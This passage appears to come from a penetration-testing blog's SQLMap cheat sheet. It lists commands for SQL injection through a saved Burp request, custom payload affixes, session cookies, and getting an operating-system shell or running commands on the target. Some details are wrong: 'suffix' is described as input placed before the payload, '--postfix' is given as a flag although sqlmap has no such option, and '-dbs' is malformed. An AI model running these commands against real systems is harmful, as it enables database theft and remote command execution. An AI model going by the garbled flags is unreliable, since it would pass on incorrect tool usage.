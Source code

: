 ### SQLMap from Burp file 

Save a Burp or Zap request file and mark the injection point(s) parameters with an asterisk (*), the good thing about this option is that it takes care of any authentication cookies for you. You can inject into any parameter in the request, e.g., headers, inside cookies, and using multiple methods (GET, PUT, POST, DELETE) etc. 

{% highlight bash %}

sqlmap -r request.burp 

{% endhighlight %}

### Custom SQL Injection Payload: Pre and Post Input 

In a scenario where you have identified a SQL injection manually or via another tool, you may need to suffix (have input entered before the SQL injection payload) or postfix (have input inserted after the injection payload), this can be accomplished using the following: 

How to insert input before an injection payload: 

{% highlight bash %}

sqlmap -u "https://hacksofdhruv.me" -dbs --suffix="blah"  

{% endhighlight %}

How to insert input after an injection payload: 


{% highlight bash %}

sqlmap -u "https://hacksofdhruv.me" -dbs --postfix="--+"  

{% endhighlight %}

### SQLMap Cookie 

{% highlight bash %}

--cookie="PHPSESSID=$your-cookie"

{% endhighlight %}

### SQLMap Shell 

How to get an operating system command shell with SQLMap: 

{% highlight bash %}

--os-shell 

{% endhighlight %}

How to execute a command with SQLMap: 

{% highlight bash %}

--os-cmd uname 

{% endhighlight %}
